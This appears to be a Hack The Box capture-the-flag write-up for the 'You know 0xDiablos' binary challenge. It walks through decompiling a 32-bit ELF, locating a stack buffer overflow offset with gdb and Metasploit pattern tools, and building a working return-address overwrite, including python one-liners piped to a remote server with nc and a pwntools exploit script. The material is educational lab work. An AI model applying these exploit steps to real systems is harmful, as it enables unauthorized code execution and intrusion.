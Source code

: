 # Enumeration

Download file 'You know 0xDiablos.zip' extract file with 7z:

```shell
7z x You\ know\ 0xDiablos.zip                                                                                                       main 

7-Zip [64] 17.04 : Copyright (c) 1999-2021 Igor Pavlov : 2017-08-28
p7zip Version 17.04 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,16 CPUs x64)

Scanning the drive for archives:
1 file, 3058 bytes (3 KiB)

Extracting archive: You know 0xDiablos.zip
--
Path = You know 0xDiablos.zip
Type = zip
Physical Size = 3058

    
Enter password (will not be echoed):hackthebox
Everything is Ok

Size:       15656
Compressed: 3058
```

Take a look on vuln file extracted:
```shell
file vuln                                                                                                                           main 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped
```

To complete this practice it is necessary to understand buffer overflow. Read the following content, I did some practices with basic c program:

[reto](scripts/follow.md)

To complete is recomended:  ghidra, gdb, python pwn, gdb-peda

Open vuln file with ghidra, check functions and we find flag function with fgets, fgets like others can be overfloaded since var has been defined as char local_50 [64].

```code
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
Lets create pattern with 200 chars:

```shell
/opt/metasploit/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Now try buferoverfload to vuln with this string with gdb:
```shell
gdb ./vuln 
GNU gdb (GDB) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-pc-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
(gdb) run
Starting program: /home/darthv/git/badorius/vulnhub/0xDiablos/enumeration/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x33674132 in ?? ()
(gdb) 

```

Search offset:
```shell
/opt/metasploit/tools/exploit/pattern_offset.rb -q 33674132 -l 200
[*] Exact match at offset 188
```

Search flag address:
```shell
(gdb) disas flag
Dump of assembler code for function flag:
   0x080491e2 <+0>:	push   %ebp
   0x080491e3 <+1>:	mov    %esp,%ebp
   0x080491e5 <+3>:	push   %ebx
   0x080491e6 <+4>:	sub    $0x54,%esp
   0x080491e9 <+7>:	call   0x8049120 <__x86.get_pc_thunk.bx>
   0x080491ee <+12>:	add    $0x2e12,%ebx
   0x080491f4 <+18>:	sub    $0x8,%esp
   0x080491f7 <+21>:	lea    -0x1ff8(%ebx),%eax
   0x080491fd <+27>:	push   %eax
   0x080491fe <+28>:	lea    -0x1ff6(%ebx),%eax
   0x08049204 <+34>:	push   %eax
   0x08049205 <+35>:	call   0x80490b0 <fopen@plt>
   0x0804920a <+40>:	add    $0x10,%esp
   0x0804920d <+43>:	mov    %eax,-0xc(%ebp)
   0x08049210 <+46>:	cmpl   $0x0,-0xc(%ebp)
   0x08049214 <+50>:	jne    0x8049232 <flag+80>
   0x08049216 <+52>:	sub    $0xc,%esp
   0x08049219 <+55>:	lea    -0x1fec(%ebx),%eax
   0x0804921f <+61>:	push   %eax
   0x08049220 <+62>:	call   0x8049070 <puts@plt>
   0x08049225 <+67>:	add    $0x10,%esp
   0x08049228 <+70>:	sub    $0xc,%esp
   0x0804922b <+73>:	push   $0x0
   0x0804922d <+75>:	call   0x8049080 <exit@plt>
   0x08049232 <+80>:	sub    $0x4,%esp
   0x08049235 <+83>:	push   -0xc(%ebp)
   0x08049238 <+86>:	push   $0x40
   0x0804923a <+88>:	lea    -0x4c(%ebp),%eax
   0x0804923d <+91>:	push   %eax
   0x0804923e <+92>:	call   0x8049050 <fgets@plt>
   0x08049243 <+97>:	add    $0x10,%esp
   0x08049246 <+100>:	cmpl   $0xdeadbeef,0x8(%ebp)
   0x0804924d <+107>:	jne    0x8049269 <flag+135>
   0x0804924f <+109>:	cmpl   $0xc0ded00d,0xc(%ebp)
   0x08049256 <+116>:	jne    0x804926c <flag+138>
   0x08049258 <+118>:	sub    $0xc,%esp
   0x0804925b <+121>:	lea    -0x4c(%ebp),%eax
   0x0804925e <+124>:	push   %eax
   0x0804925f <+125>:	call   0x8049030 <printf@plt>
   0x08049264 <+130>:	add    $0x10,%esp
   0x08049267 <+133>:	jmp    0x804926d <flag+139>
   0x08049269 <+135>:	nop
   0x0804926a <+136>:	jmp    0x804926d <flag+139>
   0x0804926c <+138>:	nop
   0x0804926d <+139>:	mov    -0x4(%ebp),%ebx
   0x08049270 <+142>:	leave  
   0x08049271 <+143>:	ret    
End of assembler dump.
(gdb) 
```

EBP from flag function is: 0x080491e2 = 08 04 91 e2 = \xe2\x91\x04\x08
Now let's generate A with offset number of chars needed concatenate with flag address:

```shell
python2 -c 'print "A" * 188 + "\xe2\x91\x04\x08"' | ./vuln
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAâ
Hurry up and try in on server side.
```

Now try to send to server with nc, but seem doesn't works:

```shell
python2 -c 'print "A" * 188 + "\xe2\x91\x04\x08"'|nc 46.101.53.80 31815
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
```

It's time to play with python, after some research I found python [pwntools](http://docs.pwntools.com/en/latest/). Let's try to run our first python pwn script.
In order to work on server side, we need offset, flag ebp addres, and two parameters  from fu nfunction flag, on ghidra we can get the adresses of both 0xdeadbeef and 0xc0ded00d:
![ghidra parms](IMG/ghidra_parms.jpg)

YES! It's fun python time: 
 
```python
from pwn import *

offset = b"A" * 188
fourbytes = b"AAAA"
flag_ebp = p32(0x080491e2, endian="little")
parm_one = p32(0xdeadbeef, endian="little")
parm_two = p32(0xc0ded00d, endian="little")
serverip = "178.62.13.127"
port = 30495

exploit = offset + flag_ebp + fourbytes + parm_one + parm_two

server = remote(serverip, port)
#server = elf.process()
server.sendlineafter(":", exploit)
server.interactive()
```

```shell
python pwn_exploit.py                                                                                             main 
[+] Opening connection to 178.62.13.127 on port 30495: Done
/home/darthv/git/badorius/vulnhub/0xDiablos/FootHold/venv/lib/python3.10/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xde\xc0\xde
HTB{XXXXXXXXXXXXXXXXXXXXXXX}$       [*] Got EOF while reading in interactive
$  
```

Voilà!!! 
